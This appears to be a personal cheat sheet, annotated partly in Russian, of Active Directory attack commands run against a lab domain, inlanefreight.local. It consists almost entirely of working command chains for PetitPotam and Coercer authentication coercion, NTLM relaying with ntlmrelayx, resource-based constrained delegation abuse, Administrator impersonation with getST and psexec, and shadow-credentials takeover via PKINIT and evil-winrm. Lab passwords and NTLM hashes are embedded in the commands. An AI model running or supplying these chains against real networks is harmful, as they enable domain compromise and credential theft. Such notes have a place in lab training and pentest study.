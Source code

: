 *** Petit Potam
	
 	https://github.com/ly4k/PetitPotam
 	python3 PetitPotam.py 172.16.117.30(мой) 172.16.117.3(контроллер) -u 'plaintext$' -p 'o6@ekK5#rlw2rAe' -d inlanefreight.local	(через smb)
  	python3 PetitPotam.py WIN-MMRQDG2R0ZX@80/files 172.16.117.60 -u 'plaintext$' -p 'o6@ekK5#rlw2rAe'		(через webDAV)
	sudo python3 Responder.py -I ens192

*** Coercer

 	Coercer coerce -t 172.16.117.50 -l 172.16.117.30 -u 'administrator' -d inlanefreight.local -v --hashes aad3b435b51404eeaad3b435b51404ee:d1e532fdcdea711011a6b13bcf390401 --always-continue
	sudo python3 Responder.py -I ens192
*** * (RBCD from LINUX через ntlmrelay) по умолчанию компьютер может редактировать свои собственные msDS-AllowedToActOnBehalfOfOtherIdentityатрибут!!!
 
    		sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$' (добавляем компутер в домен)
    		sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug (повышение привелегий)
    		crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing FILENAME=@secret (включаем webdaw)
    		crackmapexec smb 172.16.117.0/24 -u plaintext$ -p o6@ekK5#rlw2rAe -M webdav (проверяем где включился)
    		sudo python3 Responder.py -I ens192 (для коонтроля smb and http = off)
    		sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'plaintext$' --no-smb-server --no-dump   (добавляем RBCD на SQL01$)
    		python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.60 LINUX01@80/print (вызывае аутентификацию -- LINUX01@80/print -то что ловится Responderom)
		findDelegation.py INLANEFREIGHT.LOCAL/administrator -hashes aad3b435b51404eeaad3b435b51404ee:d1e532fdcdea711011a6b13bcf390401  (проверяем сработало ли)
    		getST.py -spn cifs/sql01.inlanefreight.local -impersonate Administrator -dc-ip 172.16.117.3 "INLANEFREIGHT"/"plaintext$":"xw{4tWh4sT^+q-$"  (заказываем TGS)
    		KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass sql01.inlanefreight.local (Заходим)


*** SHADOW CREDENTIALS (через ntlm relay)

	sudo python3 Responder.py -I ens192
	sudo ntlmrelayx.py -t ldap://INLANEFREIGHT\\CJAQ@172.16.117.3 --shadow-credentials --shadow-target jperez --no-da --no-dump --no-acl --no-smb-server  (Ловим CJAQ и заставляем его отдать сертификатShadowCredentials над jperz)
 	python3 gettgtpkinit.py -cert-pfx rbnYdUv8.pfx -pfx-pass NRzoep723H6Yfc0pY91Z INLANEFREIGHT.LOCAL/jperez jperez.ccache (Сохраняем TGT из сертификата)
	KRB5CCNAME=jperez.ccache evil-winrm -i dc01.inlanefreight.local -r INLANEFREIGHT.LOCAL


# NTLMRELAY когда у одного компа есть админские права для другого

		у 14 есть разрешение на админство от 12
  		
		sudo impacket-ntlmrelayx -t smb://192.168.134.14 --delegate -smb2support
